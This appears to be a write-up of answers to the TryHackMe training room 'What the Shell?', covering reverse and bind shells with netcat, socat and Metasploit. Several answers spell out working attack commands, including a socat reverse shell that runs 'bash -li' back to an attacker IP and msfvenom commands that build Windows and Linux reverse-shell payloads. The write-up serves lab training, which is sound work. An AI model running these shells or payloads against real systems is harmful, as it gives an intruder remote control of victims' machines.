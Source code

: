 ```yaml
---
title: <img width="50" height="50" alt="front-page port 80-shoopyu" src="https://tryhackme-images.s3.amazonaws.com/room-icons/0741ea184b13423cdc35c13147cf930b.png">  What the Shell? | Tryhackme 
author: cotes
date: 2022-08-12 14:10:00 +0800
categories: [Write Up, TryHackMe]
tags: [walkthrough, THM, Tryhackme, shell,socat,webshell,reverse shell,msfvenom,shell,bind shell]
render_with_liquid: false
---
```

&nbsp;

<img width="488" allign="center" alt="simple-ctf-logo" src="https://tryhackme-images.s3.amazonaws.com/room-icons/0741ea184b13423cdc35c13147cf930b.png">




# What the shell?
&nbsp;
An introduction to sending and receiving (reverse/bind) shells when exploiting target machines.

## Task 3

>💢**note:** Task 1,2 have **no answer needed**

**Q: Which type of shell connects  _back_  to a listening port on your computer, Reverse (R) or Bind (B)?**

**A: `R`**

**Q: You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)**

**A: `N`**

**Q: When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?**

**A: `T`**
----------------------------
&nbsp;


## Task 4 Netcat

**Q: Which option tells netcat to  _listen_?**

**A: `-l`**

**Q: How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?**

**A:` nc 10.10.10.11 8080`**
----------
&nbsp;

## **Task 5 Netcat Shell Stabilisation**

**Q: How would you change your terminal size to have 238 columns?**

**A:` stty cols 238`**

**Q: What is the syntax for setting up a Python3 webserver on port 80?**

**A: sudo python3 -m http.server 80**
-----
&nbsp;

## Task 6 Socat

**Q: How would we get socat to listen on TCP port 8080?**

**A: `TCP-L:8080`**
---
&nbsp;


## **Task 7 Socat Encrypted Shells**

**Q: What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"**

**A:** ```socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0```

**Q: If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?**

**A:** ``socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane``

-----
&nbsp;


## **Task 8 Common Shell Payloads**

**Q: What command can be used to create a  _named pipe_ in Linux?**

**A: ``mkfifo``**


--
&nbsp;

## **Task 9 msfvenom**

**Q: Generate a staged reverse shell for a 64 bit Windows target, in a  `.exe`  format using your TryHackMe tun0 IP address and a chosen port**

**A: ```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port number>```**

**Q: Which symbol is used to show that a shell is stageless?**

**A: ``_``**

**Q: What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is  _elf_ and the output filename should be  _shell_**

**A: ```msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443```**

## **Task 10 Metasploit multi/handler**

Q: What command can be used to start a listener in the background?

A: **`exploit -j`**

Q: If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

A: **`sessions 10`**
